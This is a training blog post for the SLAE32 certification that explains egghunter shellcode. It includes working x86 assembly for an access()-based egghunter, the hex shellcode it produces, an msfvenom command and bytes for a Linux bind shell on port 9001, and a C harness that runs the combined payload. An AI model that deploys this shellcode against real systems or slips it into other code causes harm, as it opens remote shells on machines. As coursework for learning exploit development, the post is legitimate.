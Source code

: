 ```yaml
---
title: SLAE32 - Assignment#3 [Egghunter]
author: bigb0ss
date: 2020-12-26 23:53:00 +0800
categories: [SLAE32, Assignment_3_Egghunter]
tags: [slae32, assembly, x86, Egghunter]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #3 
* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

# What is Egghunter?
Personally, I have dealt with Egghunter when I was studying for the [OSCE course](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/) form Offensive Security. Egghunter is essentially a staged payload and is comprised with relatively short shellcode (around 32 bytes). In a situation where the first buffer space is limited, we can implement the Egghunter shellcode there, and this will search the process memory for the much bigger buffer space where we place the signature (aka "Egg") with our final reverse/bing shellcode.

The below image is a simplified version of how Egghunter works: 

![image](/assets/img/post/slae32/assignment3/01.png)

# Egghunter In Depth

![image](/assets/img/post/slae32/assignment3/02.png)

Even though I knew what Egghunter was and how to use it, I wanted to understand it in greater detail. So I read Matt Miller's [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) to learn more about Egghunter. 

The following is the key take- aways from the article:

* Per the author, 8 byte egg is recommended since it can give enough uniquness that it can eaily selected without running any high risk of a collision. 

## Linux Egghunter Implementation

* In Linux implementation, there are two main methods: 
    * 1) SIGSEGV handler to catch invalid memory address dereferences and prevent the program from crashing
    * 2) Using OS system call interface to validate process VMAs in kernel mode. 

* In Linux implementation, the SIGSEGV handler technique has a big drawback of a size issue. 

* In Linux implementation, the fact that the system call will return the `EFAULT` error code when it encounters an invalid memory space is the exact type of information needed for Egghunter since it can traverse the process' VAS without crashing the program. 

| Techniques (Linux) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| access | 39 bytes | Yes | Very robust | Bigger size, Eggs should be executable, limiting the range of unique eggs |
| access (Improved) | 35 bytes | No | Very robust, non-executable eggs | Still a bit bigger size, Fails if Direction Flag (DF) is set | 
| sigaction | 30 bytes | No | Faster and smaller size | In certain scenarios, it may be not robust, Fails if Direction Flag (DF) is set |

## Windows Egghunter Implementation

* In Windows implementation, there are also two main methods:
    * 1) SEH (Structure Exception Handler)
    * 2) OS System call (IsBadReadPtr & NtDisplayString)

| Techniques (Windows) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| SEH | 60 bytes | No | Can run on any Windows version, Can search eggs bigger than 8 bytes | Bigger size, Fails if Direction Flag (DF) is set |
| IsBadReadPtr | 37 bytes | No | Robust (API-based approach) | Use of a static VMA, Potential race condition, Fails if Direction Flag (DF) is set |
| NtDisplayString | 32 bytes | No | Smallest, Fastest, Most robust | Static system call number, Fails if Direction Flag (DF) is set |

# Egghunter Shellcode
For demonstration purposes, I will be using the Linux implementation of `access()` syscall version to build the Egghunter payload. Let's create the following `egghunter.nasm` file:

```s
global _start

section .text

_start:
        mov ebx, 0x50905090     ; 4 byte Egg (*Little-Endian)
        xor ecx, ecx        ; Zero out ECX
        mul ecx     ; Zero out EAX and EDX

next_page:
        or dx, 0xfff        ; Set PAGE_SIZE 4095 (0x1000)

next_addr:
        inc edx     ; Increment by 4095 (0x1000)
        pushad      ; Preserve all general purposes register values onto the stack
        lea ebx, [edx+4]        ; Checking if the address is readable
        mov al, 0x21        ; Set AL to syscall access() (0x21)
        int 0x80        ; Soft-interrupt to execute the syscall

        cmp al, 0xf2        ; Check for EFAULT (Invalid memory space)
        popad       ; Restore the preserved registers
        jz next_page        ; EFAULT --> Invalid memory space --> Next page

        cmp [edx], ebx      ; Check for the address if it contains our egg
        jnz next_addr       ; If not, go back to look for our first egg 

        cmp [edx+4], ebx        ; Check for the address + 4 if it contains our second egg 
        jnz next_addr       ; If not, go back to look for our second egg

        jmp edx     ; Both eggs are found --> JMP to EDX --> Continue execution flow
```

## Compile + Bind Shellcode (msfvenom)

I created a simple compiler [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py). 

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# python compilerX86.py -f egghunter
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         

[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
[+] Shellcode: "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

Additionally, using msfvenom, let's create a bind shell:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# msfvenom -p linux/x86/shell_bind_tcp lport=9001 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

## Final Touch

Finally, let's combine those bind shellcode and egghunter to create the following exploit script `egghunter.c`:

```c
#include <stdio.h>

unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

void main() {
    int (*ret)() = (int(*)())egghunter;
    ret();

    return 0;
}
```

![image](/assets/img/post/slae32/assignment3/03.png)


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)